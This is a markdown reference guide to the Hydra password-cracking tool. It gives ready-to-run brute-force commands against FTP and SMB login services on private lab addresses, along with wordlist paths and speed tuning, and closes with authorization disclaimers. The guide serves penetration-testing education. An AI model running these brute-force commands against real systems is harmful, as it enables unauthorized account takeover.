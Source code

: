 
---

```markdown
# Hydra Password Cracking Guide

## Introduction
Hydra is a powerful brute-forcing tool used to test the strength of passwords across various protocols (e.g., FTP, SMB, SSH). Below are detailed examples and explanations for using Hydra effectively.

---

## Basic Syntax
```bash
hydra -L <USERNAME_LIST> -P <PASSWORD_LIST> <TARGET_IP> <SERVICE> [OPTIONS]
```

### Key Options:
- `-L`: Path to the username wordlist (capital `L`).
- `-l`: Single username (small `l`).
- `-P`: Path to the password wordlist (capital `P`).
- `-p`: Single password (small `p`).
- `-s`: Target port number (e.g., FTP uses `21`, SMB uses `445`).
- `-V`: Verbose mode (prints login attempts in real-time).
- `-t`: Number of parallel tasks (threads). Common values: `2, 4, 8, 16, 32`.

---

## Examples

### 1. FTP Brute-Force
**Command:**
```bash
hydra -L /root/username.txt -P /root/password.txt 192.168.0.105 -s 21 ftp -V -t 32
```

**Explanation:**
- `-L /root/username.txt`: Username wordlist.
- `-P /root/password.txt`: Password wordlist.
- `192.168.0.105`: Target IP.
- `-s 21`: FTP service port.
- `-V`: Verbose output.
- `-t 32`: 32 parallel threads.

---

### 2. SMB Brute-Force (Port 445)
**Command:**
```bash
hydra -L /root/username.txt -P /root/password.txt 192.168.0.121 -s 445 smb -V -t 32
```

**Alternative Syntax:**
```bash
hydra -L /root/username.txt -P /root/password.txt smb://192.168.0.121 -V
```

**Explanation:**
- `smb://192.168.0.121`: Target IP with protocol prefix.
- No `-s` needed if using the protocol prefix.

---

### 3. SMB Brute-Force (Single Username)
**Command:**
```bash
hydra -l forensic -P /root/password.txt smb://192.168.0.121 -V
```

**Explanation:**
- `-l forensic`: Single username (`forensic`).
- `-P /root/password.txt`: Password wordlist.

---

### 4. SMB Brute-Force (Single Password)
**Command:**
```bash
hydra -L /root/username.txt -p admin 192.168.0.121 -s 445 smb -V
```

**Explanation:**
- `-p admin`: Single password (`admin`).
- `-L /root/username.txt`: Username wordlist.

---

## Notes
1. **Wordlists**:
   - Common wordlists: `/usr/share/wordlists/rockyou.txt` (passwords), `/usr/share/wordlists/dirb/common.txt` (usernames).
   - Custom wordlists can be generated using tools like `crunch` or `cewl`.

2. **Performance**:
   - Increase `-t` for faster brute-forcing, but avoid overwhelming the target.
   - Use `-V` to monitor progress.

3. **Ethical Considerations**:
   - Ensure explicit authorization before testing.
   - Document findings and report responsibly.

---

## Troubleshooting
- **Connection Issues**: Verify the target IP and service are reachable.
- **False Positives**: Check logs or use `-V` for detailed output.
- **Slow Performance**: Reduce threads (`-t`) or use a smaller wordlist.

---

## Legal Disclaimer
**Authorized Use Only**: This guide assumes you have permission to conduct penetration testing. Unauthorized use is illegal.
```

---

### How to Use This Note:
1. Save the content as `hydra_guide.md`.
2. Use it for quick reference during penetration testing.
3. Modify the examples as needed for your target environment.
